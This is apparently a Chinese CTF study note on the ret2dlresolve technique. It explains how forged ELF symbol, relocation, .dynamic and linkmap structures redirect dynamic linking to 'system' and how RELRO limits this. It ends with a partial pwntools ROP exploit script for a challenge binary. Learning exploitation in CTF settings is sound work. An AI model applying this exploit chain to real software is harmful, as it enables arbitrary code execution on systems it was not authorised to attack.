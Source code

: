 在利用处写入要劫持的函数字符串，将 `st_name` 改写为目标相对于 `ELF String Table` 的偏移，但是目标函数字符串只能在（`ELF String Table` ，`ELF String Table` + `0xffffffff`）之间

##### ELF64_Rela

劫持 `ELF64_Rela` 结构体 `r_info` 的高32位，即函数在  `ELF Symbol Table `处的偏移，在目标处伪造一个 `ELF64_Sym `结构体，后续同对 `ELF64_Sym` 的利用

##### reloc_arg

跳转到 `plt` 对应表项时压入 `reloc_arg` ，将此 `reloc_arg` 改为一个较大的相对于 `ELF JMPREL Relocation Table` 的偏移，在偏移所在处伪造 `ELF64_Rela` 结构体，后续同对 `ELF64_Rela` 的利用

##### .dynamic

这些基址都存放于 `.dynamic` 段的一系列结构体中，在 `.dynamic` 段中伪造 `Elf64_Dyn` 结构体，改变各个段或表的基址，最终指向 `system` 字符串

##### linkmap

在 `plt[0]` 中执行了 `push got[1]` ，压入了 `linkmap` 结构体，而 `linkmap` 结构体中 `l_ld` 字段指向指向动态段 `.dynamic` ,通过压入伪造的 `linkmap` 或者 改写 `l_ld` 字段都可以劫持 `.dynamic` 段，后续同对 `.dynamic` 的利用

#### 保护对利用的限制

`No RELRO`：`.dynamic`段可写，`got`表可写

`Partial RELRO`：`.dynamic`段不可写，`got` 表前三项不可写

`Full RELRO`：所有的外部引用变量/函数都将在程序装载时由动态链接器解析完成，`got` 表不可写，bypass待续

#### newstar_dl_runtime_resolve

利用 `relog_arg`

```
from pwn import *

context(log_level='debug',arch='amd64',os='linux')
io = process('/home/kali/Desktop/newstar_dl_rr')
# io = gdb.debug('/home/kali/Desktop/newstar_dl_rr')

bss_addr = 0x404e00
ret_addr = 0x4011C7
pop_rdi_addr = 0x40115E
pop_rbp_addr = 0x401161
pop_rsi_addr = 0x40116B
read_plt_addr = 0x401060
leave_ret_addr = 0x4011A9
setbuf_plt_2 = 0x401039
fake_struct = 0x4040B0
str_bin_sh = bss_addr+0x90

payload = b'a'*0x70 + p64(bss_addr) + p64(pop_rsi_addr) + p64(bss_addr) + p64(read_plt_addr) + p64(leave_ret_addr)
io.send(payload)
sleep(0.3)

bss_payload = p64(bss_addr+0x18) + p64(leave_ret_addr) + p64(0) + p64(bss_addr+0x100) + p64(pop_rdi_addr) + p64(str_bin_sh) + p64(ret_addr) + p64(setbuf_plt_2)

# reloc_arg bss_addr+0x40
# (bss_addr+0x50-0x400518)/0x18
bss_payload += p64(0x30d) + p64(0)

# fake elf_rel  bss_addr + 0x50
# (bss_addr + 0x70 - 0x3FF3F8)/0x18
bss_payload += p64(0x404018) + p64(0x3c500000007) + p64(0) + p64(0)

```